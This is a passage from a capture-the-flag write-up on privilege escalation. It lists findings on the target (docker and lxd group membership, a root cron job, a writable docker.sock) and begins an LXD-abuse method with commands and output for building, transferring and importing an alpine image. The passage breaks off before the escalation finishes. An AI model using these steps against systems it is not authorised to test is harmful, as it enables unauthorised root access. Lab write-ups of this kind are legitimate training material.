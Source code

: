 



<br>

<h2 id="Privilege-escalation">Privilege Escalation</h2>

Once getting inside `172.18.0.1`, we start our internal enumeration and we noticed those interesting things :
- user **sysadmin** is in group **docker**
- user **sysadmin** is in group **lxd**
- the path already altred
- a cron job is running every 5 min, as root `*/5 * * * * /data/update.sh`
- **/var/run/docker.sock** is writable


<br>

at least 2 methods were tested and they successfully lead us to privilege escalation.


<br>
<h2 id="m1">Method 1 : Privilege Escalation via LXD</h2>

The user **sysadmin** is a member of lxd group
```
sysadmin@ubuntu:/tmp$ id
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),122(docker)
```

Any members of the local lxd group on Linux systems have numerous routes to escalate their privileges to root, for a detailed explanation, you can check this [article](https://initblog.com/2019/lxd-root/).

To abuse this vulnerability, we had to create an image for lxc, Import that image, then initialize it inside a new container.


In our host, we start by building an alpine image

```
m3dsec@local:~/forbusinessreasons.thm$ git clone  https://github.com/saghul/lxd-alpine-builder.git
m3dsec@local:~/forbusinessreasons.thm$ cd lxd-alpine-builder; ./build-alpine
alpine-v3.12-x86_64-20200831_1111.tar.gz
```

Transfer the alpine tar image to the target host
```
m3dsec@local:~/forbusinessreasons.thm$ scp alpine-v3.12-x86_64-20200831_1111.tar.gz sysadmin@127.0.0.1:/tmp/alpine-v3.12-x86_64-20200831_1111.tar.gz
sysadmin@127.0.0.1's password: mi*******
alpine-v3.12-x86_64-20200831_1111.tar.gz                                                               100% 3124KB  32.9KB/s   01:34
```

on the target host, we import the image.

```
sysadmin@ubuntu:/tmp$ lxc image import ./alpine-v3.12-x86_64-20200831_1111.tar.gz --alias m3dsec
Image imported with fingerprint: 54b31ff9784c4ae2efad2c364f2151fb7eff54e73f8c2fdf85737f00d9706977
sysadmin@ubuntu:/tmp$ lxc image list
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| m3dsec | 54b31ff9784c | no     | alpine v3.12 (20200831_11:11) | x86_64 | 3.05MB | Sep 23, 2020 at 5:03pm (UTC) |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
```
